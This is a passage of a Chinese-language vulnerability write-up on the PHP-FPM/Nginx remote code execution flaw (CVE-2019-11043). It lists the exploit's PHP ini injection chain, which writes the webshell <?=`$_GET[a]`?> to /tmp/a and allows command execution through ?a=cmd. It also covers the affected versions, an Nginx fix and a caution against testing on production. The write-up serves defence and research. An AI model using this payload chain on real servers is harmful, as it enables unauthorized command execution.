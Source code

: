 ![工具探测过程](../pictures/phpfpm_3.png)

```c
  var chain = []string{
         "short_open_tag=1", //开启php短标签
         "html_errors=0",   // 在错误信息中关闭HTML标签。
         "include_path=/tmp",  //包含路径
         "auto_prepend_file=a",  //指定脚本执行前自动包含的文件，功能类似require()。
         "log_errors=1",  //使能错误日志
         "error_reporting=2",   //指定错误级别
         "error_log=/tmp/a",  //错误日志记录文件
         "extension_dir=\"<?=\`\"",   //指定extension的加载目录
        "extension=\"$_GET[a]\`?>\"", //指定加载的extension
    }
```
 当设置如上 PHP配置变量时，由于第三方文件扩展 (extension_dir + extension) <?=`$_GET[a]`?> 不存在，会触发错误并写入到 /tmp/a 文件，则成功在目标机器写入 webshell 文件，并且以 `?a=cmd` 形式发起请求，均会触发命令执行（执行任意php 文件前先prepend /tmp/a 文件）。
### 影响范围
该漏洞影响以下版本的PHP：
7.1.x < 7.1.33
7.2.x < 7.2.24
7.3.x < 7.3.11

### 漏洞修复
1. 在不影响业务的情况下，删除Nginx配置文件中的如下配置进行修复：
```
fastcgi_split_path_info  ^(.+?\.php)(/.*)$;
fastcgi_param PATH_INFO  $fastcgi_path_info;
```
## 0x05 总结
1. php-fpm一般会启动多个进程，如果变更了PHP_VALUE等环境变量，访问的这个进程的配置项就改变了，但不影响其他进程；如果多访问几次，就可能把所有进程的配置项都改了，而且是永久改的，直到下次重启fpm，这里风险较大，**故切勿对生产环境进行测试！**
2. php-fpm 正常情况下应该监听在本地的9000端口。对于php-fpm监听端口对外开放（一般情况下是用于nginx/apache与fastcgi 分离，即 fastcgi_pass ip 不是 127.0.0.1，而是某个内网ip），均需做访问控制，只允许指定的IP访问。
3. 两个漏洞获取服务器权限的方式相似，都是利用fastcgi中的PHP_VALUE 环境变量修改php-fpm的ini，但是php-fpm未授权访问是发送包含PHP_VALUE的fastcgi请求，而php-fpm+nginx rce 漏洞则是fpm处理恶意fastcgi请求逻辑错误导致PHP_VALUE被覆盖。
4. 安全测试人员在写相关的poc 时需要注意涉及到相关进程环境变量的变更可能是永久的，直到进程重启，故需要特别谨慎，测试完也需要删除相关的poc 落地后门等文件。
## 0x06 参考
* https://www.mi1k7ea.com/2019/08/25/%E6%B5%85%E8%B0%88PHP-FPM%E5%AE%89%E5%85%A8/
* https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html
* https://segmentfault.com/a/1190000021000475
* http://www.secwk.com/2019/10/30/12305/
* https://l0gs.xf0rk.space/2019/10/23/php-cve-2019-11043/
* https://github.com/neex/phuip-fpizdam
* https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
* https://bugs.php.net/bug.php?id=78599